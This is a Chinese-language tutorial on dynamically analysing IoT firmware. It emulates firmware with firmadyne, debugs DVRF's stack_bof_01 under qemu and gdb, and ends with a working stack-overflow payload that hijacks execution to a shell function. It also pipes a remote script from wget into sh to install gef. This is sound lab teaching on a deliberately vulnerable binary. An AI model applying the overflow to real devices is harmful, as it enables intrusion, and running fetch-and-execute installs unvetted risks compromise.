 # 动态分析 IoT 固件

动态分析固件之前，需要先把固件运行起来，但我们手头又没有路由器、摄像头之类的物联网硬件，该如何运行呢？这就需要虚拟执行，虚拟执行你就把它想象成一个虚拟机可以运行各种物联网OS就是了。虚拟执行IoT固件需要用到firmadyne工具，该工具很难安装，在kali上安装一直报错，你们可以尝试下，反正我是放弃了，最终还是乖乖地用attifyti提供的物联网渗透专用虚拟机，下载下来的文件直接用vmware导入就行了。
https://www.dropbox.com/sh/xrfzyp1ex2uii53/AAAF0mdA1qFaEBDYZoIxaQRma?dl=0
![1](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/1.png)

该系统为ubuntu14，密码为password@123，下面我们来演示虚拟执行一个dlink固件。
![2](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/2.png)

在tools/fat路径下运行python fat.py，输入固件路径DWP2360b-firmware-v206-rc018.bin，然后是固件的品牌dlink，依次输入数据库密码firmadyne和用户密码password@123。
![3](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/3.png)

脚本执行成功后，会回显一个IP地址，这个IP就是模拟的固件地址。
![4](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/4.png)

以上只是简单地演示如何虚拟执行一个固件，下面我们就来实操如何通过动态调试分析一个固件，接下来的固件采用DVRF，这是个网友自制的充满漏洞的固件，供学习用的。
'''
git clone https://github.com/praetorian-code/DVRF.git
'''

开始之前，安装以下工具，动态调试中会用到。
'''
sudo apt install gdb-multiarch
wget -q -O- https://github.com/hugsy/gef/raw/master/scripts/gef.sh | sh
sudo pip3 install capstone unicorn keystone-engine
'''
安装keystone-engine时可能会报错，参考这个链接。
https://github.com/avatartwo/avatar2/issues/23

安装好工具后，就开始对固件进行分析啦，固件路径如下。
DVRF/Firmware/DVRF_v03.bin
使用binwalk提取固件文件系统。
binwalk -t -e DVRF_v03.bin
![5](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/5.png)

提取出来的系统有个文件夹pwnable，这个文件夹就是存放着有漏洞的程序示例，我们选取缓冲区漏洞程序stack_bof_01进行实验。首先使用readelf命令查看该程序的架构。
readelf -h pwnable/Intro/stack_bof_01
![6](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/6.png)

拷贝qemu-mipsel-static到当前目录，然后配合chroot虚拟执行stack_bof_01固件，可以成功执行。qemu是一款轻型的虚拟机。
'''
cp $(which qemu-mipsel-static) .
sudo chroot . ./qemu-mipsel-static ./pwnable/Intro/stack_bof_01
'''
![7](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/7.png)

查看stack_bof_01的源码，可以发现明显的strcpy内存溢出漏洞，当参数argv[1]超过200时，就会出现buf溢出的现象。
'''
cat DVRF/Pwnable Source/Intro/stack_bof_01.c
'''
![8](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/8.png)

以调试的方式启动stack_bof_01，在本地的1234端口监听调试。
'''
sudo chroot . ./qemu-mipsel-static -g 1234 ./pwnable/Intro/stack_bof_01
'''
![9](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/9.png)

运行以下命令开始调试。
'''
gdb-multiarch pwnable/Intro/stack_bof_01
'''
gdb运行后，会自动加载gef插件，然后设置固件架构为mips。
'''
set architecture mips
'''
设置完远程调试的IP和端口，就可开始调试stack_bof_01程序了。
'''
target remote 127.0.0.1:1234
'''
![10](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/10.png)

调用命令查看样本的所有函数，可以看到各个函数的地址。
'''
info functions
'''
![11](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/03-动态分析IoT固件/11.png)

如果你感兴趣，可以使用disass main命令查反汇编看下main函数的汇编码，这是mips架构的汇编码，跟x86的相差很大，完全看不懂。。


然后我们使用命令创建一个随机的300字节流，作为攻击字符串，用于测试参数溢出的点。
pattern create 300


重新带参数调试stack_bof_01。
sudo chroot . ./qemu-mipsel-static -g 1234 ./pwnable/Intro/stack_bof_01 aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac


gdb挂上去后，输入c回车让程序跑起来，会发现程序崩溃了，SIGSEGV内存出错，指针ra指向0x63616162，对应的ASCII是”baac”。


使用命令查看该溢出点在攻击字符串的什么位置，是位于pattern的第204位。
pattern search 0x63616162
然后反汇编dat_shell函数，查看其函数地址，我们的目的是要让程序本来执行0x63616162，变成执行dat_shell的地址，理论上应该把0x63616162改成0x400950，但书上说要略过前3条gp相关的指令，我也不知道为啥，有兴趣的同学google下吧。
disass dat_shell


将待执行的函数地址拼凑到204个字节后面，便可劫持程序执行流到dat_shell函数（0x40095C）,从而实现缓冲区溢出攻击。
sudo chroot . ./qemu-mipsel-static ./pwnable/Intro/stack_bof_01 "$(python -c "print 'A'*204 + '\x5c\x09\x40'")"


最后，试了下0x400950确实不行，会报错。

